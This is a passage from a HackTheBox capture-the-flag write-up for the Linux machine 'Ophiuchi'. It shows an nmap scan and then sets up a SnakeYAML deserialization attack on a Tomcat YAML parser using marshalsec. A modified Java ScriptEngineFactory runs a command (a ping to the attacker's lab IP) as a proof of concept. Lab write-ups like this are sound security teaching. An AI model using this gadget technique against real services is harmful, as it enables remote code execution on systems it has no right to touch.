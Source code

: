 # Ophiuchi - HackTheBox
Linux, 30 Base Points, Medium

## Machine
![Ophiuchi.JPG](images/Ophiuchi.JPG)

## Ophiuchi Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi]
└──╼ $nmap -sC -sV -oA nmap/Ophiuchi 10.10.10.227
# Nmap 7.80 scan initiated Mon Feb 22 22:01:34 2021 as: nmap -sC -sV -oA Ophiuchi 10.10.10.227
Nmap scan report for 10.10.10.227
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 22 22:01:46 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

We can see port ```8080``` which is ```Apache Tomcat 9.0.38```.

Let's try to browse this port:

![port8080.JPG](images/port8080.JPG)

So If it's yaml parser we can use [marshalsec](https://github.com/mbechler/marshalsec), Reference [snakeyaml-deserilization-exploited](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

I found github contains ```yaml-payload``` using SnakeYAML deserialization gadge taken from above marshalsec.

First, Let's make a poc to check if the payload work.

I'm changed ```AwesomeScriptEngineFactory``` method from ```src/artsploit/AwesomeScriptEngineFactory.java``` to:
```java
public AwesomeScriptEngineFactory() {
        try {
                        Runtime.getRuntime().exec("ping -c 1 10.10.14.14");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
